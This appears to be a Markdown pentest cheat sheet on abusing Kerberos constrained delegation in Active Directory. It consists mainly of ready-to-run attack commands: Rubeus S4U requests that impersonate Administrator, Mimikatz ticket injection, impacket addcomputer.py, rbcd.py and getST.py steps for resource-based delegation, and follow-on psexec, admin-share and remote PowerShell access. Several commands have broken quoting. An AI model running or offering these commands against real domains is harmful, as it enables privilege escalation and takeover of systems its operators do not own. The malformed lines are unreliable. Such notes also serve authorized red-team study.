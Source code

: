 # Constrained Delegation

## Tools: Rubeus , rbcd.py , addcomputer.py , getST.py

### Object: msDS-AllowedToDelegateTo

### UACs TRUST_TO_AUTH_FOR_DELEGATION (With protocol transition (any)) / TRUSTED_FOR_DELEGATION (Without protocol transition (kerberos only))

# 1) Without protocol transition (kerberos only)  msDS-AllowedToDelegateTo TRUSTED_FOR_DELEGATION

Any service can be specified on the target since it is not correctly checked. All the Rubeus commands can be performed with kekeo aswell.

Windows

### 1) Request a ticket for multiple services on the target, for another user (S4U)

    .\Rubeus.exe s4u /user:user1 /rc4:<hash> /impersonateuser:Administrator /msdsspn:"time/<target>.domain.local" /altservice:ldap,cifs /ptt

### 2) If we have a session as the user, we can just run .\Rubeus.exe tgtdeleg /nowrap to get the TGT in Base64, then run:

    .\Rubeus.exe s4u /ticket:doIFCDC[SNIP]E9DQUw= /impersonateuser:Administrator /domain:domain.local /msdsspn:"time/<target>.domain.local" /altservice:ldap,cifs /ptt

### 3) Inject the ticket 

    Invoke-Mimikatz -Command '"kerberos::ptt ticket.kirbi"'

Linux

    addcomputer.py -computer-name 'RBCD_COM$' -computer-pass 'RBCD_COM_PASSWORD' -dc-ip DC -DOMAIN/USER:PASSWORD' (RBCD)

    rbcd.py -delegate-from 'RBCD_COM$' -delegate-to 'CONSTRAINED$' -dc-ip -'DC' -action 'write' -hashes 'HASH DOMAIN/CONSTRAINED$ (For Self RBCD, Skip the 1st step entirely)

    getST.py -self -impersonate "administrator" -dc-ip IP DOMAIN/RBCD_COM$':'RBCD_COM_PASSWORD'

    getST.py -spn host/CONSTRAINED -hashes 'HASH' 'DOMAIN/COMPUTER_ACCOUNT' -impersonate Administrator --dc-ip DC_IP -additional-ticket PREVIOUS_TICKET

    getST.py -spn CONSTRAINED_SPN/TARGET -hashes 'HASH' 'DOMAIN/CONSTRAINED$' -impersonate Administrator --dc-ip DC_IP -additional-ticket PREVIOUS_TICKET

#### This technique gives a Kerberos TGS (Service ticket)

# 2) (With protocol transition (any)) msDS-AllowedToDelegateTo TRUST_TO_AUTH_FOR_DELEGATION

In this case, it is not possible to use S4U2self to obtain a forwardable ST for a specific user. This restriction can be bypassed with an RBCD attack.

    Rubeus hash /password:PASSWORD

## OR 

    Rubeus asktgt /user:USER /domain:DOMAIN /aes256:AES_256_HASH

    Rubeus s4u /ticket:TICKET /impersonateuser:ADMIN_USER /msdsspn:SPN_CONTRAINED /altservice:CIFS /ptt (Choose the altservice below to use with rubeus)

## Linux

    getST.py -spn 'cifs/target.domain.local' -impersonate administrator -hashes ':<computer_NThash>' -dc-ip <DC_IP> domain.local/computer
    export KRB5CCNAME=./Administrator.ccache

### Altservice:

#### 1) HOST

    psexec \\\TARGET CMD

#### 2) CIFS

    dir \\TARGET\c$

#### 3) HTTP

    Enter-Pssession -computername TARGET

## OR 

    Invoke-Command TARGET -Scriptblock {COMMAND}

#### 4) LDAP (No interactions)

### This attack gives a Kerberos TGS (Service Ticket)
